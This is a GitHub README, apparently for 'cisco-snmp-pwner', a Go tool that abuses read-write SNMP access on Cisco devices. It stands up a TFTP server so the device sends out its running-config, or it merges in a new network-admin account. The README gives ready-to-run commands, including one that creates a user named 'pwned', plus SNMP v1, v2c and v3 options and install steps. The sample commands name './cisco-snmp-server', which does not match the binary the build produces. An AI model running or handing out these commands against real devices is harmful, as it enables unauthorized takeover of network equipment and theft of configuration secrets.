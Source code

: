 # cisco-snmp-pwner

If you ever got access to a RW snmp access to a cisco device this tool got you covered.

It spins up a local TFTP server (you need to run it as root as it's a low port) and either dumps the `running-config` or adds a new user to it by merging the `running-config` with a custom one provided via the TFTP server.

The listen IP you need to specify needs to be accessible from the cisco device so IPs like 0.0.0.0 will not work.

## dump

This will dump the config as `dump_target_randomstring` to the current directory. The filename is printed upon executing the tool

```
sudo ./cisco-snmp-server dump --listen 10.0.0.1 --target cisco.local --version 2c --communitystring private
```

### Options

```
OPTIONS:
   --debug, -d                     enable debug output (default: false)
   --listen value, -l value        local ip to listen on, must be accessible by the cisco device
   --target value, -t value        target ip of the cisco device
   --targetfile value, --tf value  list of ip addresses instead of target
   --timeout value                 timeout for SNMP operations (default: 2s)
   --version value                 snmp version to use. Either 1, 2c or 3 (default: "2c")
   --communitystring value         snmp communitystring with RW permissions
   --v3username value              snmp v3 username
   --v3authpass value              snmp v3 authpass
   --v3privacypass value           snmp v3 privacypass
   --v3authproto value             snmp v3 authproto
   --v3privproto value             snmp v3 privproto
   --help, -h                      show help (default: false)
```

## add-user

This will add a new user with the `network-admin` role (can be overidden) to the device. Be sure to dump the device first and make sure the user does not exist, otherwise you will overwrite it and may cause some networking issues.

```
sudo ./cisco-snmp-server add-user --listen 10.0.0.1 --target cisco.local --version 2c --communitystring private --username pwned --password 'allYourCisc0AreBelongToUs$'
```

### Options

```
OPTIONS:
   --debug, -d                     enable debug output (default: false)
   --listen value, -l value        local ip to listen on, must be accessible by the cisco device
   --target value, -t value        target ip of the cisco device
   --targetfile value, --tf value  list of ip addresses instead of target
   --timeout value                 timeout for SNMP operations (default: 2s)
   --version value                 snmp version to use. Either 1, 2c or 3 (default: "2c")
   --communitystring value         snmp communitystring with RW permissions
   --v3username value              snmp v3 username
   --v3authpass value              snmp v3 authpass
   --v3privacypass value           snmp v3 privacypass
   --v3authproto value             snmp v3 authproto. Either SHA, SHA224, SHA256, SHA384, SHA512, MD5 or NoAuth
   --v3privproto value             snmp v3 privproto. Either NoPriv, DES, AES, AES192, AES256, AES192C or AES256C
   --username value                username of the user to add
   --password value                password of the user to add
   --role value                    role of the new user (default: "network-admin")
   --help, -h                      show help (default: false)
```

## Build instructions

### Without source

- Install golang [https://go.dev/doc/install](https://go.dev/doc/install)
- `go install github.com/firefart/cisco-snmp-pwner@latest`

### From source

- Install golang [https://go.dev/doc/install](https://go.dev/doc/install)
- `go get`
- `make` or `go build -o cisco-snmp-pwner`
